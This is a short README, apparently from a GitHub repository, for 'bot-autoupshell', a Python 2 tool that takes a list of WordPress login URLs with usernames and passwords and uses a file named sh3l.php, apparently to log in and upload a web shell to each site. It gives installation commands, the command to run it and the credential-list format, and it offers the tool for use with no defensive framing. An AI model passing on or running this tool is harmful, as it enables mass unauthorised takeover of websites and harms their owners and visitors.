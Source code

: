 # Author
```
Nickname : W4FXploit
Website : https://www.w4fxploit.my.id
```

# Requirements
```
requests bs4
```

# Installation
```
$ pkg install python2
$ pip2 install requests bs4
$ git clone https://github.com/W4FXploit/bot-autoupshell
$ cd bot-autoupshell
$ python2 wp_auto.py list_web.txt sh3l.php
Isi list_web.txt seperti ini 
https://web.com/wp-login.php|admin|password
```
